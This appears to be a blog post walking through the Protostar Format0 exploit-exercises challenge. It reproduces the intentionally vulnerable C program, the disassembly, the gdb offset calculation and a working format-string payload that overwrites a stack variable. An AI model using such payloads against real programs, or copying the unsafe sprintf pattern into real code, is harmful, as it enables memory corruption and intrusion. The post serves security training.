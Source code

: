 ```yaml
---
layout: post
title: "Protostar | exploit-exercises solutions"
date: 2015-02-21
comments: true
categories:
---
```


##Format0 - format string vulnerability

This post assumes the reader know why a format string vulnerability occurs, if you don't know owasp have
a good intro [here](https://www.owasp.org/index.php/Format_string_attack).


Format0.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```

The given argument in vuln are saved into a buffer, without proper sprintf formatters.
We should be able to access and overwrite the target value with print specifiers.

The stack layout in vuln:

```
.text:0804844C buffer= byte ptr -4Ch
.text:0804844C target= dword ptr -0Ch
.text:0804844C string= dword ptr  8
```

And as string is below target we will be able to access and overwrite it with formatters.

Lets load it up in gdb and find the stack addresses for buffer and target to calculate the offset our format specifier will need to overwrite target relative from the buffer.

Relevant part of vuln function.

```nasm
mov    DWORD PTR [ebp-0xc],0x0 /*target = 0*/
mov    eax,DWORD PTR [ebp+0x8] /*format string*/
mov    DWORD PTR [esp+0x4],eax
lea    eax,[ebp-0x4c] /*buffer*/
mov    DWORD PTR [esp],eax
call   0x8048350 <sprintf@plt>
```

The addresses:

```
/*target*/
gdb-peda$ x/x $ebp-0xc
0xbffff35c: 0x00000000

/*buffer*/
gdb-peda$ x/x $ebp-0x4C
0xbffff31c: 0x00000001

```

Offset:```0xbffff35c-0xbffff31c = 0x40 = 64d```

And our payload becomes:

64bytes+0xdeadbeef

%64x+0xdeadbeef

$(python -c 'print "%64x"+"\xef\xbe\xad\xde"')

```
tomasuh@crunch:~/programming/pentest/protostar$ ./format0 $(python -c 'print "%64x"+"\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

Lets also verify it in gdb for fun.

![alt text](/images/format0.png "")